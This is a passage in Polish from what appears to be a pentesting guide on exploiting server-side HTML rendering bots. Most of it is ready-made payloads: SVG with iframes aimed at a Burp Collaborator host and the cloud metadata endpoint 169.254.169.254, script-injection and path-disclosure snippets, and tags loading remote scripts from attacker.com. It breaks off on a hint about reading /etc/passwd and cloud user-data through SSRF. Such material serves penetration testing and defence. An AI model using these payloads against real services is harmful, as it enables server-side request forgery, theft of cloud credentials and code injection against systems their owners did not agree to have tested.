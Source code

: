 Jeden z wcześniejszych lub następujących payloadów może być użyty wewnątrz tego payloadu SVG. Jeden iframe, który uzyskuje dostęp do subdomeny Burpcollab, oraz drugi, który uzyskuje dostęp do punktu końcowego metadanych, są podane jako przykłady.
```markup
<svg xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" class="root" width="800" height="500">
<g>
<foreignObject width="800" height="500">
<body xmlns="http://www.w3.org/1999/xhtml">
<iframe src="http://redacted.burpcollaborator.net" width="800" height="500"></iframe>
<iframe src="http://169.254.169.254/latest/meta-data/" width="800" height="500"></iframe>
</body>
</foreignObject>
</g>
</svg>


<svg width="100%" height="100%" viewBox="0 0 100 100"
xmlns="http://www.w3.org/2000/svg">
<circle cx="50" cy="50" r="45" fill="green"
id="foo"/>
<script type="text/javascript">
// <![CDATA[
alert(1);
// ]]>
</script>
</svg>
```
Możesz znaleźć wiele **innych ładunków SVG** na stronie [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet)

### Ujawnienie ścieżki
```markup
<!-- If the bot is accessing a file:// path, you will discover the internal path
if not, you will at least have wich path the bot is accessing -->
<img src="x" onerror="document.write(window.location)" />
<script> document.write(window.location) </script>
```
### Załaduj zewnętrzny skrypt

Najlepszym sposobem na wykorzystanie tej podatności jest nadużycie jej w celu zmuszenia bota do załadowania skryptu, który kontrolujesz lokalnie. Następnie będziesz mógł lokalnie zmieniać ładunek i zmusić bota do załadowania go za każdym razem przy użyciu tego samego kodu.
```markup
<script src="http://attacker.com/myscripts.js"></script>
<img src="xasdasdasd" onerror="document.write('<script src="https://attacker.com/test.js"></script>')"/>
```
### Odczytaj lokalny plik / SSRF

{% hint style="warning" %}
Zmień `file:///etc/passwd` na `http://169.254.169.254/latest/user-data` na przykład, aby **spróbować uzyskać dostęp do zewnętrznej strony internetowej (SSRF)**.
